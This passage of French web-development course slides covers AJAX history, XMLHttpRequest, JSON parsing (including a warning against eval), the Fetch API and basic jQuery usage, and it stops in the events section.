\hypertarget{ajax-historique}{%
\section{AJAX : Historique}\label{ajax-historique}}

\begin{itemize}
\tightlist
\item
  Asynchronous Javascript And Xml
\item
  Buzzword,
  \href{http://web.archive.org/web/20110102130434/http://www.adaptivepath.com/ideas/essays/archives/000385.php}{Jesse
  James Garret}, 2005
\item
  Mise à jour sans rechargement intégral
\item
  Utilisation de
  \href{https://en.wikipedia.org/wiki/Remote_scripting}{Remote
  Scripting} et de DOM
\item
  Historique de techniques de remote scripting

  \begin{itemize}
  \tightlist
  \item
    (i)frames
  \item
    Bibliothèques JS (ex:
    \href{http://www.ashleyit.com/rs/jsrs/test.htm}{JSRS})
  \item
    Utilisation des images/cookies (ex:
    \href{http://web.archive.org/web/20100916110710/http://depressedpress.com/Content/Development/JavaScript/Articles/GIFAsPipe/Index.cfm}{GIF})
  \item
    Applets, Flash, ActiveX, \ldots{}
  \item
    {XHR : XML HTTP Request} (IE5, 1999 pour OWA)
  \item
    Fetch API
  \end{itemize}
\item
  Pas obligatoire d'avoir du JS, XML ni d'être asynchrone !
\end{itemize}

\hypertarget{ajax}{%
\section{AJAX}\label{ajax}}

\begin{itemize}
\tightlist
\item
  XHR est devenue la méthode standard jusqu'à 2018

  \begin{itemize}
  \tightlist
  \item
    Popularisée par Google (GMaps, GMail, \ldots)
  \item
    Le w3c fait évoluer un
    \href{https://www.w3.org/TR/XMLHttpRequest/}{draft} depuis 2006
  \end{itemize}
\item
  Principe

  \begin{enumerate}
  \def\labelenumi{\arabic{enumi}.}
  \tightlist
  \item
    Envoi de requête HTTP
  \item
    La réponse provoque l'éxecution de la fonction de rappel
  \item
    Le DOM de la page est mis à jour
  \end{enumerate}
\item
  Applications

  \begin{itemize}
  \tightlist
  \item
    GUI ressemblant à des app natives
  \item
    MAJ dynamiques de formulaires, autocompletion
  \item
    Validation avec interrogation du serveur
  \item
    \ldots{}
  \end{itemize}
\end{itemize}

\hypertarget{lobjet-xmlhttprequest}{%
\section{\texorpdfstring{L'objet
\emph{XMLHttpRequest}}{L'objet XMLHttpRequest}}\label{lobjet-xmlhttprequest}}

\begin{itemize}
\tightlist
\item
  Initiative de Microsoft

  \begin{itemize}
  \tightlist
  \item
    Composant ActiveX de IE5
  \item
    Adopté par Mozilla 1.0 et Safari 1.2
  \item
    Standardisation W3C en cours
  \end{itemize}
\item
  Requête HTTP en JS
\item
  Fonction de rappel (callback)
\item
  Asynchrone : Non bloquant
\item
  Non standard =\textgreater{} différentes implémentations
\item
  Supporté par la majorité des navigateurs
\item
  Alternative souhaitable si JS désactivé
\end{itemize}

\hypertarget{xhr-en-js}{%
\section{XHR en JS}\label{xhr-en-js}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var}\NormalTok{ xhr}\OperatorTok{;}
\KeywordTok{function} \FunctionTok{createXMLHttpRequest}\NormalTok{() }
\NormalTok{\{}
    \ControlFlowTok{if}\NormalTok{ (}\BuiltInTok{window}\OperatorTok{.}\AttributeTok{ActiveXObject}\NormalTok{) }
\NormalTok{    \{}
\NormalTok{        xhr }\OperatorTok{=} \KeywordTok{new} \FunctionTok{ActiveXObject}\NormalTok{(}\StringTok{"Microsoft.XMLHTTP"}\NormalTok{)}\OperatorTok{;}
\NormalTok{    \}}
    \ControlFlowTok{else} \ControlFlowTok{if}\NormalTok{ (}\BuiltInTok{window}\OperatorTok{.}\AttributeTok{XMLHttpRequest}\NormalTok{) }
\NormalTok{    \{}
\NormalTok{        xhr }\OperatorTok{=} \KeywordTok{new} \BuiltInTok{XMLHttpRequest}\NormalTok{()}\OperatorTok{;}
\NormalTok{    \}}
\NormalTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Dans son
  \href{http://www.xul.fr/xml-ajax.html\#ajax-exemple}{contexte}
\end{itemize}

\hypertarget{xhr-en-jquery-avec-load}{%
\section{\texorpdfstring{XHR en jQuery avec
\emph{load()}}{XHR en jQuery avec load()}}\label{xhr-en-jquery-avec-load}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\DataTypeTok{\textless{}!DOCTYPE }\NormalTok{html}\DataTypeTok{\textgreater{}}
\KeywordTok{\textless{}html\textgreater{}}
\KeywordTok{\textless{}head\textgreater{}}
\KeywordTok{\textless{}script}\OtherTok{ src=}\StringTok{"jquery.js"}\KeywordTok{\textgreater{}\textless{}/script\textgreater{}}
\KeywordTok{\textless{}script\textgreater{}}
\FunctionTok{$}\NormalTok{(}\BuiltInTok{document}\NormalTok{)}\OperatorTok{.}\FunctionTok{ready}\NormalTok{(}\KeywordTok{function}\NormalTok{()\{}
  \FunctionTok{$}\NormalTok{(}\StringTok{"button"}\NormalTok{)}\OperatorTok{.}\FunctionTok{click}\NormalTok{(}\KeywordTok{function}\NormalTok{()\{}
    \FunctionTok{$}\NormalTok{(}\StringTok{"\#div1"}\NormalTok{)}\OperatorTok{.}\FunctionTok{load}\NormalTok{(}\StringTok{"demo\_test.txt"}\NormalTok{)}\OperatorTok{;}
\NormalTok{  \})}\OperatorTok{;}
\NormalTok{\})}\OperatorTok{;}
\KeywordTok{\textless{}/script\textgreater{}}
\KeywordTok{\textless{}/head\textgreater{}}

\KeywordTok{\textless{}body\textgreater{}}
  \KeywordTok{\textless{}div}\OtherTok{ id=}\StringTok{"div1"}\KeywordTok{\textgreater{}\textless{}h2\textgreater{}}\NormalTok{Let jQuery AJAX Change This Text}\KeywordTok{\textless{}/h2\textgreater{}\textless{}/div\textgreater{}}
  \KeywordTok{\textless{}button\textgreater{}}\NormalTok{Get External Content}\KeywordTok{\textless{}/button\textgreater{}}
\KeywordTok{\textless{}/body\textgreater{}}
\KeywordTok{\textless{}/html\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  \href{http://www.w3schools.com/jquery/tryit.asp?filename=tryjquery_ajax_load}{Tester}
\item
  D'\href{https://code.tutsplus.com/tutorials/jquery-succinctly-jquery-and-ajax--net-33856}{autres}
  façons de faire
\end{itemize}

\hypertarget{xhr-propriuxe9tuxe9s-et-muxe9thodes}{%
\section{XHR : propriétés et
méthodes}\label{xhr-propriuxe9tuxe9s-et-muxe9thodes}}

\begin{itemize}
\tightlist
\item
  \textenglish{\texttt{readyState,\ status,\ onreadystatechange}}
\item
  \textenglish{\texttt{responseText,\ responseXML}}
\item
  \textenglish{\texttt{open\ (Verbe,\ URI,\ async)\ :}}

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{Verbe}} HTTP : ``GET'', ``POST'' ou ``PUT''
  \item
    \textenglish{\texttt{URI}} : destinataire de la requête
  \item
    \textenglish{\texttt{async}} (bool) : \textenglish{\texttt{true}} =
    asynchrone, \textenglish{\texttt{false}} = bloquant
  \end{itemize}
\item
  \textenglish{\texttt{send\ (null\ \textbar{}\ string)}} : peut être
  bloquante
\item
  \textenglish{\texttt{setRequestHeader(header,\ value)}}
\item
  \textenglish{\texttt{getResponseHeader(string)}}
\item
  \textenglish{\texttt{abort()}}
\end{itemize}

\hypertarget{envoi-de-donnuxe9es}{%
\section{Envoi de données}\label{envoi-de-donnuxe9es}}

\begin{itemize}
\tightlist
\item
  GET

  \begin{itemize}
  \tightlist
  \item
    {Obtenir des données}
  \item
    Longueur URL limitée par le navigateur (2'048 pour IE)
  \item
    Utilise le cache (navigateur, proxy)
  \item
    manipulables par l'utilisateur (bookmarks, partage, \ldots)
  \end{itemize}
\item
  POST

  \begin{itemize}
  \tightlist
  \item
    {Faire quelque chose}
  \item
    Données sensibles
  \item
    Longueur limitée par le serveur (assez large)
  \item
    Utilisation de la méthode send() de XHR
  \item
    Requête Ajax en 2 temps (entête, puis données)
  \end{itemize}
\end{itemize}

\hypertarget{envoi-de-donnuxe9es-1}{%
\section{Envoi de données}\label{envoi-de-donnuxe9es-1}}

\begin{itemize}
\tightlist
\item
  Cache

  \begin{itemize}
  \tightlist
  \item
    Client : Construire des
    \href{http://stackoverflow.com/questions/367786/prevent-browser-caching-of-jquery-ajax-call-result}{URL
    uniques}
  \item
    Serveur : Envoi
    d'\href{https://developers.google.com/web/fundamentals/performance/optimizing-content-efficiency/http-caching}{entêtes}
    interdisant le cache
  \end{itemize}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{MyXhr}\OperatorTok{.}\FunctionTok{open}\NormalTok{(}\StringTok{"GET"}\OperatorTok{,} \StringTok{"fichier.xml"}\OperatorTok{,} \KeywordTok{true}\NormalTok{)}\OperatorTok{;}
\NormalTok{MyXhr}\OperatorTok{.}\FunctionTok{setRequestHeader}\NormalTok{(}\StringTok{"Cache{-}Control"}\OperatorTok{,} \StringTok{"no{-}store, no{-}cache, must{-}revalidate, }
\NormalTok{            post}\OperatorTok{{-}}\NormalTok{check}\OperatorTok{=}\DecValTok{0}\OperatorTok{,}\NormalTok{ pre}\OperatorTok{{-}}\NormalTok{check}\OperatorTok{=}\DecValTok{0}\StringTok{");}
\NormalTok{MyXhr}\OperatorTok{.}\FunctionTok{setRequestHeader}\NormalTok{(}\StringTok{"Pragma"}\OperatorTok{,} \StringTok{"no{-}cache"}\NormalTok{)}\OperatorTok{;}
\NormalTok{MyXhr}\OperatorTok{.}\FunctionTok{setRequestHeader}\NormalTok{(}\StringTok{"Expires"}\OperatorTok{,} \StringTok{"Wed, 09 Aug 2000 08:21:57 GMT"}\NormalTok{)}\OperatorTok{;} 
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{pruxe9fuxe9rer-get-sauf}{%
\section{Préférer GET, sauf}\label{pruxe9fuxe9rer-get-sauf}}

\begin{figure}
\centering

\includegraphics{src/img/GETvsPOST.png}
\caption{``GETorPOST''}
\end{figure}

\href{http://blog.teamtreehouse.com/the-definitive-guide-to-get-vs-post}{Détails}

\hypertarget{ruxe9ponse-en-texte}{%
\section{Réponse en texte}\label{ruxe9ponse-en-texte}}

\begin{itemize}
\tightlist
\item
  Si la requête aboutit :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{readystate\ ==\ 4}}
  \item
    \textenglish{\texttt{status\ ==\ 200}}
  \end{itemize}
\item
  La réponse est dans l'attribut \textenglish{\texttt{responseText}}
\item
  ou dans \textenglish{\texttt{responseXML}}

  \begin{itemize}
  \tightlist
  \item
    Utilisation du DOM
    (\textenglish{\texttt{getElementsByTagName(),\ ...}})
  \end{itemize}
\end{itemize}

\hypertarget{ruxe9ponse-en-xml}{%
\section{Réponse en XML}\label{ruxe9ponse-en-xml}}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{\textless{}?xml}\NormalTok{ version="1.0" }\KeywordTok{?\textgreater{}}
\KeywordTok{\textless{}liste\textgreater{}}
     \KeywordTok{\textless{}personne\textgreater{}}
         \KeywordTok{\textless{}nom\textgreater{}}\NormalTok{Berger}\KeywordTok{\textless{}/nom\textgreater{}}
         \KeywordTok{\textless{}prenom\textgreater{}}\NormalTok{Laurent}\KeywordTok{\textless{}/prenom\textgreater{}}
     \KeywordTok{\textless{}/personne\textgreater{}}
     \KeywordTok{\textless{}personne\textgreater{}}
         \KeywordTok{\textless{}nom\textgreater{}}\NormalTok{Borgo}\KeywordTok{\textless{}/nom\textgreater{}}
         \KeywordTok{\textless{}prenom\textgreater{}}\NormalTok{Sébastien}\KeywordTok{\textless{}/prenom\textgreater{}}
     \KeywordTok{\textless{}/personne\textgreater{}}
     \KeywordTok{\textless{}personne\textgreater{}}
         \KeywordTok{\textless{}nom\textgreater{}}\NormalTok{Bux}\KeywordTok{\textless{}/nom\textgreater{}}
         \KeywordTok{\textless{}prenom\textgreater{}}\NormalTok{Rémy}\KeywordTok{\textless{}/prenom\textgreater{}}
     \KeywordTok{\textless{}/personne\textgreater{}}
\KeywordTok{\textless{}/liste\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Dans \textenglish{\texttt{responseXML}}
\end{itemize}

\hypertarget{ruxe9ponse-en-json19}{%
\section{\texorpdfstring{Réponse en
\href{http://www.json.org/}{JSON}}{Réponse en JSON}}\label{ruxe9ponse-en-json19}}

\begin{itemize}
\tightlist
\item
  \href{http://www.ecma-international.org/publications/files/ECMA-ST/ECMA-404.pdf}{Standard}
  depuis octobre 2013 (\href{http://www.crockford.com/}{Douglas
  Crockford})
\item
  Tableau d'objets js :

  \begin{itemize}
  \tightlist
  \item
    pour chacun, ses attributs sont des paires clé:valeur
  \end{itemize}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{\{}\DataTypeTok{"nom"}\FunctionTok{:} \StringTok{"Berger"}\FunctionTok{,} \DataTypeTok{"prénom"}\FunctionTok{:} \StringTok{"Laurent"}\FunctionTok{\}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\OtherTok{[}\StringTok{"zéro"}\OtherTok{,} \DecValTok{1}\OtherTok{,} \DecValTok{2}\OtherTok{,} \DecValTok{3}\OtherTok{]}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\OtherTok{[}
  \FunctionTok{\{}\DataTypeTok{"nom"}\FunctionTok{:} \StringTok{"Berger"}\FunctionTok{,} \DataTypeTok{"prénom"}\FunctionTok{:} \StringTok{"Laurent"}\FunctionTok{\}}\OtherTok{,}
  \FunctionTok{\{}\DataTypeTok{"nom"}\FunctionTok{:} \StringTok{"Borgo"}\FunctionTok{,}  \DataTypeTok{"prénom"}\FunctionTok{:} \StringTok{"Sébastien"}\FunctionTok{\}}\OtherTok{,}
  \FunctionTok{\{}\DataTypeTok{"nom"}\FunctionTok{:} \StringTok{"Bux"}\FunctionTok{,}    \DataTypeTok{"prénom"}\FunctionTok{:} \StringTok{"Rémy"}\FunctionTok{\}}
\OtherTok{]}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Utilisation de : \sout{var users = eval(`(' + myXHR.responseText +
  `)');} pour créer le tableau d'objets correspondant
\end{itemize}

\hypertarget{eval-is-evil-22}{%
\section{\texorpdfstring{\href{https://javascriptweblog.wordpress.com/2010/04/19/how-evil-is-eval/}{«
eval is Evil »}}{« eval is Evil »}}\label{eval-is-evil-22}}

\begin{itemize}
\tightlist
\item
  \textenglish{\texttt{eval()}} : évalue et exécute la chaîne en
  paramètre
\item
  Risque : instructions au lieu d'un tableau d'objets
\item
  Solution : le
  \href{https://developer.mozilla.org/fr/docs/Web/JavaScript/Reference/Objets_globaux/JSON/parse}{parser}
  JSON
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var}\NormalTok{ users }\OperatorTok{=} \BuiltInTok{JSON}\OperatorTok{.}\FunctionTok{parse}\NormalTok{(myXHR}\OperatorTok{.}\AttributeTok{responseText}\NormalTok{)}\OperatorTok{;}
\KeywordTok{var}\NormalTok{ myString }\OperatorTok{=} \BuiltInTok{JSON}\OperatorTok{.}\FunctionTok{stringify}\NormalTok{(users)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Avec jQuery :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{var}\NormalTok{ obj }\OperatorTok{=}\NormalTok{ jQuery}\OperatorTok{.}\FunctionTok{parseJSON}\NormalTok{(}\StringTok{\textquotesingle{}\{"nom":"Berger"\}\textquotesingle{}}\NormalTok{)}\OperatorTok{;}
\FunctionTok{alert}\NormalTok{(obj}\OperatorTok{.}\AttributeTok{nom}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{fetch-api}{%
\section{Fetch API}\label{fetch-api}}

\begin{itemize}
\tightlist
\item
  Le successeur d'XHR est \href{https://fetch.spec.whatwg.org/}{fetch} :
  \href{https://developer.mozilla.org/fr/docs/Web/API/Fetch_API/Using_Fetch}{Exemple}
\item
  Fetch a un \emph{polyfill} pour les navigateurs ne le supportant pas
\item
  L'API Fetch est native et plus simple d'utilisation que jQuery
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{fetch}\NormalTok{(}\StringTok{"fichier.json"}\NormalTok{)}
    \OperatorTok{.}\FunctionTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{(response) \{}
        \ControlFlowTok{return}\NormalTok{ response}\OperatorTok{.}\FunctionTok{json}\NormalTok{()}
\NormalTok{    \})}
    \OperatorTok{.}\FunctionTok{then}\NormalTok{(}\KeywordTok{function}\NormalTok{(json) \{}
        \BuiltInTok{console}\OperatorTok{.}\FunctionTok{log}\NormalTok{(json)}\OperatorTok{;}
\NormalTok{    \})}
    \OperatorTok{.}\FunctionTok{catch}\NormalTok{(}\KeywordTok{function}\NormalTok{(error) \{}
        \BuiltInTok{console}\OperatorTok{.}\FunctionTok{error}\NormalTok{(}\StringTok{"erreur"}\OperatorTok{,}\NormalTok{ error)}
\NormalTok{    \})}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  L'API fetch est native et utilise les
  \href{https://www.promisejs.org/}{promesses} plutôt que les callbacks
\end{itemize}

\hypertarget{traitement-derreurs}{%
\section{Traitement d'erreurs}\label{traitement-derreurs}}

\begin{itemize}
\tightlist
\item
  Utiliser les
  \href{https://www.bennadel.com/blog/1860-using-appropriate-status-codes-with-each-api-response.htm}{entêtes
  HTTP}

  \begin{itemize}
  \tightlist
  \item
    Champ Status
  \item
    Code d'erreur
  \end{itemize}
\item
  En PHP
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{header}\OtherTok{(}\StringTok{"Status: Message d\textquotesingle{}erreur explicite"}\OtherTok{,} \KeywordTok{true}\OtherTok{,} \DecValTok{400}\OtherTok{);}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Afficher le message au client :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{myXHR}\OperatorTok{.}\FunctionTok{getResponseHeader}\NormalTok{(}\StringTok{"Status"}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{penser-uxe0-lutilisateur}{%
\section{Penser à l'utilisateur !}\label{penser-uxe0-lutilisateur}}

\begin{itemize}
\tightlist
\item
  Requêtes XHR non enregistrées dans l'historique :

  \begin{itemize}
  \tightlist
  \item
    Bouton précédent non opérationnel (sauf GET et URL uniques)
  \item
    Pas de bookmark
  \item
    solution via
    \href{http://w3c.github.io/html/browsers.html\#session-history-and-navigation}{History
    API}
  \end{itemize}
\item
  Utilisabilité : signaler à l'utilisateur ce qui est en cours :

  \begin{itemize}
  \tightlist
  \item
    GIF \href{http://ajaxloadingimages.net/}{AJAX loading}
  \item
    Rectangle Loading en haut à droite (Google)
  \item
    \href{https://codepen.io/Mestika/pen/KVGwKb}{Yellow Fade Technique}
    (37signals) : partie modifiée
  \end{itemize}
\item
  Code client :

  \begin{itemize}
  \tightlist
  \item
    Pas de maitrise performance
  \item
    Mauvais code == Appli lente
  \end{itemize}
\item
  En cas de doute, faire tester des utilisateurs
\end{itemize}

\hypertarget{bonnes-pratiques-dutilisabilituxe9}{%
\section{Bonnes pratiques
d'utilisabilité}\label{bonnes-pratiques-dutilisabilituxe9}}

\begin{itemize}
\tightlist
\item
  Trafic minimal
\item
  Pas de surprise
\item
  Respect des conventions
\item
  Pas de distraction
\item
  A11y (\href{https://color.a11y.com/}{Contrast Checker},
  \href{https://www.a11yproject.com/checklist/}{Checklist},
  \href{https://developer.mozilla.org/en-US/docs/Web/Accessibility/ARIA}{ARIA},
  \href{https://www.a11yproject.com/resources/}{Resources})
\item
  Ne pas switcher AJAX/non-AJAX
\item
  Se mettre à la place de l'utilisateur
\end{itemize}

\hypertarget{sources}{%
\section{Sources}\label{sources}}


\chapter{ jQuery}
\hypertarget{jquery}{%
\section{jQuery}\label{jquery}}

\begin{itemize}
\tightlist
\item
  John Resig, 2006
\item
  Bibliothèque JS, gratuit, OS (licence MIT)
\item
  Facilite le développement JS pour les tâches fréquentes :

  \begin{itemize}
  \tightlist
  \item
    Manipulations DOM
  \item
    Manipulations CSS
  \item
    Réponse aux évenements du navigateur
  \item
    Effets visuels et animations
  \item
    Requêtes et réponses Ajax
  \end{itemize}
\item
  Abstraction implémentations différents navigateurs
\item
  Facile à apprendre
\item
  Utilisation du chaînage des méthodes et des callbacks
\end{itemize}

\hypertarget{utilisation}{%
\section{Utilisation}\label{utilisation}}

\begin{itemize}
\tightlist
\item
  Inclusion \href{https://jquery.com/download/\#other-cdns}{CDN}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{\textless{}}\NormalTok{script src}\OperatorTok{=}\StringTok{"https://code.jquery.com/jquery{-}3.1.1.min.js"}\OperatorTok{\textgreater{}\textless{}/}\NormalTok{script}\OperatorTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Nos scripts
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\OperatorTok{\textless{}}\NormalTok{script src}\OperatorTok{=}\StringTok{"application.js"}\OperatorTok{\textgreater{}\textless{}/}\NormalTok{script}\OperatorTok{\textgreater{}}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Syntaxe basique
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(selecteur)}\OperatorTok{.}\FunctionTok{action}\NormalTok{()}\OperatorTok{;}      \CommentTok{// $() est un raccourci pour jQuery()}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Utilisation de sélecteurs CSS, id ou classes
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\BuiltInTok{document}\NormalTok{)}\OperatorTok{;}                \CommentTok{// retourne le DOM}
\FunctionTok{$}\NormalTok{(}\StringTok{"h3"}\NormalTok{)}\OperatorTok{.}\FunctionTok{hide}\NormalTok{()}\OperatorTok{;}             \CommentTok{// cache tous les éléments h3}
\FunctionTok{$}\NormalTok{(}\StringTok{".post"}\NormalTok{)}\OperatorTok{;}                 \CommentTok{// sélectionne les éléments de classe "post"}
\KeywordTok{var}\NormalTok{ node }\OperatorTok{=} \FunctionTok{$}\NormalTok{(}\StringTok{\textquotesingle{}\textless{}p\textgreater{}New\textless{}/p\textgreater{}\textquotesingle{}}\NormalTok{)}\OperatorTok{;} \CommentTok{// un nouveau noeud}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Pour être sûr que le document est chargé :
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\BuiltInTok{document}\NormalTok{)}\OperatorTok{.}\FunctionTok{ready}\NormalTok{(}\KeywordTok{function}\NormalTok{()\{}
    \BuiltInTok{console}\OperatorTok{.}\FunctionTok{log}\NormalTok{(}\StringTok{"prêt!"}\NormalTok{)}
\NormalTok{\})}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

ou

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\KeywordTok{function}\NormalTok{() \{}
    \BuiltInTok{console}\OperatorTok{.}\FunctionTok{log}\NormalTok{(}\StringTok{"prêt!"}\NormalTok{)}
\NormalTok{\})}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{suxe9lection-dans-le-dom}{%
\section{Sélection dans le DOM}\label{suxe9lection-dans-le-dom}}

\begin{itemize}
\tightlist
\item
  Sélection
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"h1"}\NormalTok{)}\OperatorTok{;}                        \CommentTok{// noeud élément}
\FunctionTok{$}\NormalTok{(}\StringTok{"h1"}\NormalTok{)}\OperatorTok{.}\FunctionTok{text}\NormalTok{()}\OperatorTok{;}                 \CommentTok{// noeud texte en lecture}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Modification
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"h1"}\NormalTok{)}\OperatorTok{.}\FunctionTok{text}\NormalTok{(}\StringTok{"Nouveau Texte"}\NormalTok{)}\OperatorTok{;} \CommentTok{// noeud texte modifié}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Tous les fils (sélecteur descendant)
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"\#intro li"}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Que les fils directs (sélecteur d'enfants)
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"\#intro \textgreater{} li"}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  Sélecteur multiple
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{".post, \#main "}\NormalTok{)}\OperatorTok{;}
\end{Highlighting}
\end{Shaded}

\end{english}

\begin{itemize}
\tightlist
\item
  D'autres
  \href{https://www.w3schools.com/jquery/jquery_selectors.asp}{exemples}
  de sélecteurs
\end{itemize}

\hypertarget{parcours-traversing3}{%
\section{\texorpdfstring{Parcours
(\href{https://www.w3schools.com/jquery/jquery_traversing.asp}{traversing})}{Parcours (traversing)}}\label{parcours-traversing3}}

\begin{itemize}
\tightlist
\item
  Parcours du DOM dans les trois directions :

  \begin{itemize}
  \tightlist
  \item
    Depuis le noeud courant (sélectionné)
  \item
    Haut : \textenglish{\texttt{parent(),\ parents()}}
  \item
    Bas : \textenglish{\texttt{children(),\ find()}}
  \item
    Frères : \textenglish{\texttt{sibling(),\ next(),\ prev()}}
  \end{itemize}
\item
  Filtrage

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{first(),\ last(),\ eq()}}
  \item
    \textenglish{\texttt{filter(),\ not()}}
  \item
    \href{https://www.w3schools.com/jquery/jquery_ref_traversing.asp}{Référence}
  \end{itemize}
\end{itemize}

\hypertarget{modifications-de-contenu}{%
\section{Modifications de contenu}\label{modifications-de-contenu}}

\begin{itemize}
\tightlist
\item
  Accès au contenu :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{text()}} : get/set le texte entre les balises
  \item
    \textenglish{\texttt{html()}} : get/set l'élément complet (yc
    balises)
  \item
    \textenglish{\texttt{val()}} : get/set les valeurs d'un formulaire
  \item
    \textenglish{\texttt{attr()}} : set la valeur d'un attribut
  \end{itemize}
\item
  Ajout de contenu :

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{append(),\ prepend()}} : au début/fin de la
    sélection (dans l'élément)
  \item
    \textenglish{\texttt{before(),\ after()}} : avant/après la sélection
  \end{itemize}
\item
  Suppression

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{empty()}} : suppression des enfants
  \item
    \textenglish{\texttt{remove()}} : supression de la sélection
    (possibilité de filtrer)
  \end{itemize}
\end{itemize}

\hypertarget{accuxe8s-aux-css}{%
\section{Accès aux CSS}\label{accuxe8s-aux-css}}

\begin{itemize}
\tightlist
\item
  Accès aux classes

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{addClass()}} : ajout de classe(s) à l'élément
    sélectionné
  \item
    \textenglish{\texttt{removeClass()}} : suppression de classe(s)
  \item
    \textenglish{\texttt{toggleClass()}} : suppression si présente,
    ajout sinon
  \end{itemize}
\item
  Attribut style d'un élément : \textenglish{\texttt{css()}}
\end{itemize}

\begin{english}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{$}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{.}\FunctionTok{css}\NormalTok{(}\StringTok{"background{-}color"}\NormalTok{)}\OperatorTok{;}                 \CommentTok{// get}
\FunctionTok{$}\NormalTok{(}\StringTok{"p"}\NormalTok{)}\OperatorTok{.}\FunctionTok{css}\NormalTok{(\{}\StringTok{"background{-}color"}\OperatorTok{:}\StringTok{"yellow"}\OperatorTok{,}\StringTok{"font{-}size"}\OperatorTok{:}\StringTok{"200\%"}\NormalTok{\})}\OperatorTok{;}   \CommentTok{// set}
\end{Highlighting}
\end{Shaded}

\end{english}

\hypertarget{evuxe9nements}{%
\section{Evénements}\label{evuxe9nements}}

\begin{itemize}
\tightlist
\item
  Souris

  \begin{itemize}
  \tightlist
  \item
    \textenglish{\texttt{click,\ dblclick,\ mouseenter,\ mouseleave}}
  \end{itemize}
\item
